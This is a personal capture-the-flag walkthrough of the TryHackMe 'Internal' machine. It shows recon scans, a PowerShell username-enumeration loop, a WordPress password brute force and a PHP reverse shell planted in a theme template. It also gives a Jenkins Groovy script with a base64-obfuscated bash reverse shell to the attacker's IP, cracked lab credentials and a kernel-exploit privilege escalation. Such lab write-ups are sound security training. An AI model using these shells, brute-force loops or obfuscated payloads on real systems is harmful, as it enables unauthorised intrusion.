Internal¶
Recon¶
The intro mentions
Flags¶
- User.txt
- Root.txt
Rules¶
- Modify hosts file to reflect internal.thm
- All tools/techniques are allowed.
- Locate and note all vulnerabilites on the machine.
- Submit flags to dashboard.
- Stay in scope - this IP only.
Service Enumeration¶
└─$ nmap -sV -T5 10.10.123.49 | tee quickscan
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:30 CDT
Nmap scan report for 10.10.123.49
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.26 seconds
OpenSSH 7.6p1¶
Possible Username Enumeration 
User aubreanna
Try to brute force.
Apache 2.4.29 (ubuntu)¶
Possible RCE and PrivEsc 
WebServer¶
Default Apache frontpage. 
Feroxbuster¶

Ran another Feroxbuster for /blog
200 83l 284w 4530c http://internal.thm/blog/wp-login.php
200 328l 3640w 0c http://internal.thm/blog/
200 97l 823w 7278c http://internal.thm/blog/readme.html
200 5l 15w 135c http://internal.thm/blog/wp-trackback.php
200 384l 3177w 19915c http://internal.thm/blog/license.txt
200 0l 0w 0c http://internal.thm/blog/wp-config.php
200 0l 0w 0c http://internal.thm/blog/wp-cron.php
200 0l 0w 0c http://internal.thm/blog/wp-blog-header.php
200 11l 23w 223c http://internal.thm/blog/wp-links-opml.php
200 0l 0w 0c http://internal.thm/blog/wp-load.php
301 9l 28w 320c http://internal.thm/blog/wp-admin
301 0l 0w 0c http://internal.thm/blog/index.php
301 9l 28w 323c http://internal.thm/blog/wp-includes
301 9l 28w 322c http://internal.thm/blog/wp-content
302 0l 0w 0c http://internal.thm/blog/wp-signup.php
302 0l 0w 0c http://internal.thm/blog/wp-activate.php
500 0l 0w 0c http://internal.thm/blog/wp-settings.php
PHP (gotta be higher than 5.6.20 per phpMyAdmin)¶
phpMyAdmin 4.6.6¶
Login Page  FeroxBuster
$ feroxbuster -u http://internal.thm:80/phpmyadmin/ -t 10 -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -x "txt,html,php,asp,aspx,jsp" -v -k -n -q -o "/home/nate/tryhackme/boxes/active/internal/results/scans/tcp80/tcp_80_http_phpmyadmin_feroxbuster_raft-large-words.txt"
403 9l 28w 277c http://internal.thm/phpmyadmin/.html
403 9l 28w 277c http://internal.thm/phpmyadmin/.php
403 9l 28w 277c http://internal.thm/phpmyadmin/.html.txt
403 9l 28w 277c http://internal.thm/phpmyadmin/.html.html
403 9l 28w 277c http://internal.thm/phpmyadmin/.html.php
403 9l 28w 277c http://internal.thm/phpmyadmin/.html.asp
403 9l 28w 277c http://internal.thm/phpmyadmin/.html.aspx
403 9l 28w 277c http://internal.thm/phpmyadmin/.html.jsp
403 9l 28w 277c http://internal.thm/phpmyadmin/templates
301 9l 28w 324c http://internal.thm/phpmyadmin/themes
301 9l 28w 320c http://internal.thm/phpmyadmin/js
200 26l 359w 0c http://internal.thm/phpmyadmin/index.php
200 26l 359w 0c http://internal.thm/phpmyadmin/themes.php
403 9l 28w 277c http://internal.thm/phpmyadmin/.htm
403 9l 28w 277c http://internal.thm/phpmyadmin/libraries
403 9l 28w 277c http://internal.thm/phpmyadmin/.htm.txt
403 9l 28w 277c http://internal.thm/phpmyadmin/.htm.html
403 9l 28w 277c http://internal.thm/phpmyadmin/.htm.php
403 9l 28w 277c http://internal.thm/phpmyadmin/.htm.asp
403 9l 28w 277c http://internal.thm/phpmyadmin/.htm.aspx
403 9l 28w 277c http://internal.thm/phpmyadmin/.htm.jsp
200 26l 359w 0c http://internal.thm/phpmyadmin/logout.php
- [ ] Brute Force
Wordpress 5.4.2¶
$ wpscan http://internal.thm:80/blog/ -o wpscan
Results
[+] URL: http://internal.thm/blog/ [10.10.41.223]
[+] Started: Sat Nov 6 13:22:11 2021
Interesting Finding(s):
[+] Headers
| Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
| Found By: Headers (Passive Detection)
| Confidence: 100%
[+] XML-RPC seems to be enabled: http://internal.thm/blog/xmlrpc.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
| References:
| - http://codex.wordpress.org/XML-RPC_Pingback_API
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
| - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/
[+] WordPress readme found: http://internal.thm/blog/readme.html
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] The external WP-Cron seems to be enabled: http://internal.thm/blog/wp-cron.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 60%
| References:
| - https://www.iplocation.net/defend-wordpress-from-ddos
| - https://github.com/wpscanteam/wpscan/issues/1299
[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
| Found By: Rss Generator (Passive Detection)
| - http://internal.thm/blog/index.php/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>
| - http://internal.thm/blog/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>
[+] WordPress theme in use: twentyseventeen
| Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
| Last Updated: 2021-07-22T00:00:00.000Z
| Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
| [!] The version is out of date, the latest version is 2.8
| Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
| Style Name: Twenty Seventeen
| Style URI: https://wordpress.org/themes/twentyseventeen/
| Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
| Author: the WordPress team
| Author URI: https://wordpress.org/
|
| Found By: Css Style In Homepage (Passive Detection)
|
| Version: 2.3 (80% confidence)
| Found By: Style (Passive Detection)
| - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'
XML-RPC¶
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Cuckoo Sandbox Guest 2.0.1 - XMLRPC Privileged Remote Code Execution | windows/remote/40043.py
Movable Type 7 r.5002 - XMLRPC API OS Command Injection (Metasploit) | cgi/webapps/50464.rb
PHP 5.3.2 'xmlrpc' Extension - Multiple Remote Denial of Service Vulnerabilities | php/dos/33755.php
PHPXMLRPC < 1.1 - Remote Code Execution | php/webapps/43829.txt
SonicWall Global Management System - XMLRPC set_time_zone Command Injection (Metasploit) | linux/remote/45124.rb
vBulletin 4.x - breadcrumbs via xmlrpc API (Authenticated) SQL Injection | php/webapps/40115.py
vBulletin 4.x/5.x - AdminCP/ApiLog via xmlrpc API (Authenticated) Persistent Cross-Site Scripting | php/webapps/40114.py
WordPress Core 1.5.1.2 - 'xmlrpc' Interface SQL Injection | php/webapps/1077.pl
WordPress Core 2.1.2 - 'xmlrpc' SQL Injection | php/webapps/3656.pl
WordPress Core 2.2 - 'xmlrpc.php' SQL Injection | php/webapps/4039.txt
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service | php/dos/47800.py
XML-RPC Library 1.3.0 - 'xmlrpc.php' Arbitrary Code Execution (Metasploit) | php/webapps/16882.rb
XML-RPC Library 1.3.0 - 'xmlrpc.php' Remote Code Injection | php/webapps/1078.pl
XML-RPC Library 1.3.0 - 'xmlrpc.php' Remote Command Execution (2) | php/webapps/1083.pl
XML-RPC Library 1.3.0 - 'xmlrpc.php' Remote Command Execution (3) | php/webapps/1084.pl
XOOPS 2.0.11 - 'xmlrpc.php' SQL Injection | php/webapps/1082.pl
Yukihiro Matsumoto Ruby 1.x - XMLRPC Server Denial of Service | linux/dos/27723.txt
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress readme found: http://internal.thm/blog/readme.html¶
System requirements are laid out in the readme. 
WordPress version 5.4.2¶
https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress#panel-rce
WordPress theme twentyseventeen v 2.3 (80%)¶
Login Page 
Username disclosure¶
found username admin on blog post

Forgot password can be brute forced to check for valid users invalid username  valid username  Powershell to bruteforce
$validUsers = [System.collections.arraylist]::new(); $usernames | %{
>> $user = $_;
>> $body = "user_login=$user&redirect_to=&wp-submit=Get+New+Password";
>> $r = Invoke-RestMethod -Method POST -Uri $url -Body $body;
>> if($r -like "*no account*"){Write-Host -ForegroundColor Red $user}else{Write-Host -ForegroundColor Green $user; $validUsers.Add($user)>$null;}
>> $validUsers
>> }
ZAP bruteforce with username: admin passwordfile: rockyou.txt 
Wordpress Login¶
Username: admin
Password: my2boys
Following this Guide: https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress#panel-rce
1. Go to Dashboard > Appearance > Theme Editor > 404 Template
2. Paste the contents of a php reverse shell - using /usr/share/webshells/php/php-reverse-shell.php for this test.
1. Change lines 49 and 50 to reflect your shell listener.

3. Load the 404 page.
1. URL http://internal.thm/blog/index.php/2020/08/03/6/
Caught the shell with netcat.
└─$ nc -nvlp 4455
listening on [any] 4455 ...
connect to [10.2.73.217] from (UNKNOWN) [10.10.251.234] 58026
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
21:13:57 up 52 min, 0 users, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
www-data has nearly no permissions, but he can read /etc/passwd
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
Linux Kernel
$ uname -a
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
Searchsploit
$ searchsploit Linux Kernel 4.15
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox 4 / CentOS 4) - 'sock_sendpage()' Ring0 Privilege Escalation (5) | linux/local/9479.c
Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privilege Escalation | linux/local/50135.c
Linux Kernel 4.10 < 5.1.17 - 'PTRACE_TRACEME' pkexec Local Privilege Escalation | linux/local/47163.c
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (cron Method) | linux/local/47164.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (dbus Method) | linux/local/47165.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (ldpreload Method) | linux/local/47166.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (polkit Method) | linux/local/47167.sh
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation | linux/local/41886.c
Linux Kernel < 4.15.4 - 'show_floppy' KASLR Address Leak | linux/local/44325.c
Linux Kernel < 4.16.11 - 'ext4_read_inline_data()' Memory Corruption | linux/dos/44832.txt
Linux Kernel < 4.17-rc1 - 'AF_LLC' Double Free | linux/dos/44579.c
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
$ cat /etc/issue
Ubuntu 18.04.4 LTS \n \l
$ searchsploit ubuntu 18.04
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Ubuntu 18.04 - 'lxd' Privilege Escalation | linux/local/46978.sh
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------

CodeMirror 5.4.0¶
MySQL¶

Might be useful later.¶

Remediation - https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress#panel-rce
CVEs found by LinPEAS¶
CVE-2021-3156¶
Sudo before 1.9.5p2 contains an off-by-one error that can result in a heap-based buffer overflow, which allows privilege escalation to root via "sudoedit -s" and a command-line argument that ends with a single backslash character. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3156 https://packetstormsecurity.com/files/161230/Sudo-Buffer-Overflow-Privilege-Escalation.html
CVE-2021-22555¶
A heap out-of-bounds write affecting Linux since v2.6.19-rc1 was discovered in net/netfilter/x_tables.c. This allows an attacker to gain privileges or cause a DoS (via heap memory corruption) through user name space https://packetstormsecurity.com/files/163878/Kernel-Live-Patch-Security-Notice-LSN-0080-1.html
CVE-2019-7304¶
Canonical snapd before version 2.37.1 incorrectly performed socket owner validation, allowing an attacker to run arbitrary commands as root. This issue affects: Canonical snapd versions prior to 2.37.1. https://www.exploit-db.com/exploits/46361
CVE-2019-18634¶
In Sudo before 1.8.26, if pwfeedback is enabled in /etc/sudoers, users can trigger a stack-based buffer overflow in the privileged sudo process. (pwfeedback is a default setting in Linux Mint and elementary OS; however, it is NOT the default for upstream and many other packages, and would exist only if enabled by an administrator.) The attacker needs to deliver a long string to the stdin of getln() in tgetpass.c. http://www.openwall.com/lists/oss-security/2020/02/05/5
CVE-2019-15666¶
An issue was discovered in the Linux kernel before 5.0.19. There is an out-of-bounds array access in __xfrm_policy_unlink, which will cause denial of service, because verify_newpolicy_info in net/xfrm/xfrm_user.c mishandles directory validation.
CVE-2018-18955¶
In the Linux kernel 4.15.x through 4.19.x before 4.19.2, map_write() in kernel/user_namespace.c allows privilege escalation because it mishandles nested user namespaces with more than 5 UID or GID ranges. A user who has CAP_SYS_ADMIN in an affected user namespace can bypass access controls on resources outside the namespace, as demonstrated by reading /etc/shadow. This occurs because an ID transformation takes place properly for the namespaced-to-kernel direction but not for the kernel-to-namespaced direction. https://www.exploit-db.com/exploits/45886/
CVE-2017-5618¶
GNU screen before 4.5.1 allows local users to modify arbitrary files and consequently gain root privileges by leveraging improper checking of logfile permissions. http://www.openwall.com/lists/oss-security/2017/01/29/3
CVE-2017-0358¶
Jann Horn of Google Project Zero discovered that NTFS-3G, a read-write NTFS driver for FUSE, does not scrub the environment before executing modprobe with elevated privileges. A local user can take advantage of this flaw for local root privilege escalation. https://www.exploit-db.com/exploits/41356
CVE-2011-1485¶
Race condition in the pkexec utility and polkitd daemon in PolicyKit (aka polkit) 0.96 allows local users to gain privileges by executing a setuid program from pkexec, related to the use of the effective user ID instead of the real user ID.
Back to hackin¶
I got into phpMyAdmin with
user wordpress
pass wordpress123
admin
user phpmyadmin
pass B2Ud4fEOZmVq
Check out William's Account¶
user
william
pass
arnold147
Internal: Jenkins¶
Found out Jenkins is running on 8080. I did some SSH remote forwarding and am able to access Jenkins.
ssh -N -R 10.2.73.217:8080:127.0.0.1:8080 nate@10.2.73.217

PrivEsc¶
After reviewing the privesc materials again, I'm confident the exploit will either be
- Some internal only port

- Some other foothold that grants higher level than
www-data - A kernel exploit


I decided to brute force Jenkins.
The header size changed here, at the password spongebob
It worked!
Jenkins Login User
AdminPassspongebob
Using this script but changed out the base64 payload with my details

Here's the full script
def sout = new StringBuffer(), serr = new StringBuffer() def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yLjczLjIxNy80NDQ0IDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute() proc.consumeProcessOutput(sout, serr) proc.waitForOrKill(1000) println "out> $sout err> $serr"
Got a shell and did full enumeration of Jenkins. Turns out Jenkins was running in a docker container. There didn't seem to be an easy way to break out. Nothing that applied to the mission (no ssh public keys, etc.)
I went back to searching for Kernel Exploits. I was able to get full root with CVE-2021-3493

I was able to get the user and root flag. Case closed....sort of.
The root flag contained docker destroyer which means I should probably learn docker and docker breakout some day. I just got lucky and found a recent exploit that wasn't patched in this room.